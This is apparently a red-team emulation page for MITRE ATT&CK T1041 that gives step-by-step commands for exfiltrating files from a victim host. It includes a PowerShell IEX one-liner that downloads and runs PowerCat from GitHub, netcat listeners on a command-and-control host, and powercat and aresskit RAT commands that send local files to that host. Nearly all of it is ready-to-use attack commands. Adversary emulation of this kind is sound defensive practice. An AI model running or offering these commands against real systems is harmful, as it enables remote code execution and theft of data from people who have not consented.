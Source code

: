 # Exfiltration Over Command and Control Channel

---
* **ID**: T1041
* **Source**: <https://attack.mitre.org/techniques/T1041/>
---

# Details

## Using `PowerCat`
* Load PowerCat in command line on victim host:
```
powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
* Start a listener on C2 host:
```
nc -lvvp <port-of-C2> > out.file
```
* Transfer local files to remote C2 host using `PowerCat`:
```
powercat -c <ip-of-C2> -p <port-of-C2> -i <path-of-local-files>
```

## Using RAT
### Using customized `aresskit`
* [Deploy](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md) customized `aresskit` to victim host
* Transfer local files to C2 host:
  * Start a listener on C2 host:
  ```
  nc -lvvp <port_of_C2> > out.file
  ```
  * Transfer local files to remote host using `aresskit`:
  ```
  aresskit> FileHandler::uploadFileNew <path_of_local_file> <ip_of_C2> <port_of_C2>
  ```

# References

* <https://github.com/besimorhino/powercat>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md>
